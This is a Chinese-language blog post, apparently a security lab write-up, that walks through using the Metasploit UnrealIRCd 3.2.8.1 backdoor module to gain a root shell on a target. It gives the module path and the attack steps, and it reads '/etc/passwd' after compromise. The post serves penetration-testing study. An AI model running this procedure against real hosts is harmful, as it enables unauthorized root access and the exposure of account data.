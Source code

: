 ```yaml
---
title: metasploit溢出UnrealIRCd后门漏洞
date: 2021-12-21 12:23:58
tags: 
    - metasploit
    - unrealircd
    - 后门
    - 漏洞
---
```


## metasploit溢出UnrealIRCd后门漏洞

### 目的：利用UnrealIRCd后门漏洞，获取目标主机的root权限

### 原理：某些站点的UnrealIRCd，在DEBUG3_DOLOG_SYSTEM宏中包含外部引入的恶意代码，远程攻击者能够执行任意代码。

### 过程：

利用nmap扫描主机，确定`6667`端口开放，对应服务为`unreal ircd`

![1](https://gitee.com/oxchang/img-host/raw/master/metasploit%E6%BA%A2%E5%87%BAUnrealIRCd%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9E/2.PNG)

终端输入msfconsole，进入msf后输入`search unreal ircd`，搜索相关工具和攻击载荷

![2](https://gitee.com/oxchang/img-host/raw/master/metasploit%E6%BA%A2%E5%87%BAUnrealIRCd%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9E/2.PNG)

终端输入命令`use exploit/unix/irc/unreal_ircd_3281backdoor`,启用漏洞模块

输入show options,查看需要设置的相关选项
![3](https://gitee.com/oxchang/img-host/raw/master/metasploit%E6%BA%A2%E5%87%BAUnrealIRCd%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9E/3.PNG)
设置目标ip

run或者exploit,开始攻击，攻击成功后，建立shell会话

![4](https://gitee.com/oxchang/img-host/raw/master/metasploit%E6%BA%A2%E5%87%BAUnrealIRCd%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9E/4.PNG)

终端输入whoami，查看权限root，输入cat /etc/passwd，查看系统账户

![5](https://gitee.com/oxchang/img-host/raw/master/metasploit%E6%BA%A2%E5%87%BAUnrealIRCd%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9E/5.PNG)

本机4444端口建立远程会话
